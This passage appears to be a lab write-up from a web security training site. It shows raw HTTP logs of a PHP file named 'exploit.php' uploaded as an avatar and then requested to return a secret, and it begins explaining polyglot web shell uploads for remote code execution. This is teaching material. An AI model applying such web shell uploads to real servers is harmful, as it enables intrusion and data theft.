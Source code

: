 ```http
HTTP/1.1 200 OK
Date: Tue, 13 Aug 2024 06:52:41 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Keep-Alive: timeout=5, max=100
Connection: close
Content-Type: text/html; charset=UTF-8
X-Frame-Options: SAMEORIGIN
Content-Length: 132

The file avatars/exploit.php has been uploaded.<p><a href="/my-account" title="Return to previous page">« Back to My Account</a></p>
```


```http
GET /files/avatars/exploit.php HTTP/1.1
Host: 0a1100fc03680f228334797000d50062.web-security-academy.net
Cookie: session=h5PbMecvESm8kCfrT7enJ2likmXzfBYL
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: image/avif,image/webp,image/png,image/svg+xml,image/*;q=0.8,*/*;q=0.5
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a1100fc03680f228334797000d50062.web-security-academy.net/my-account
Sec-Fetch-Dest: image
Sec-Fetch-Mode: no-cors
Sec-Fetch-Site: same-origin
Priority: u=5, i
Te: trailers
Connection: keep-alive

----

HTTP/1.1 200 OK
Date: Tue, 13 Aug 2024 06:53:45 GMT
Server: Apache/2.4.41 (Ubuntu)
Keep-Alive: timeout=5, max=100
Connection: close
Content-Type: text/html; charset=UTF-8
X-Frame-Options: SAMEORIGIN
Content-Length: 32

97sAqyMPR0TCYFMBMoqMPmAVLdPZFsX3
```


#### Remote code execution via polyglot web shell upload
Some web servers verify the contents of file as well, instead of solely relying on content type or file type validations.

In the case of an image upload function, the server might try to verify certain intrinsic properties of an image, such as its dimensions. If you try uploading a PHP script, for example, it won't have any dimensions at all. Therefore, the server can deduce that it can't possibly be an image, and reject the upload accordingly.
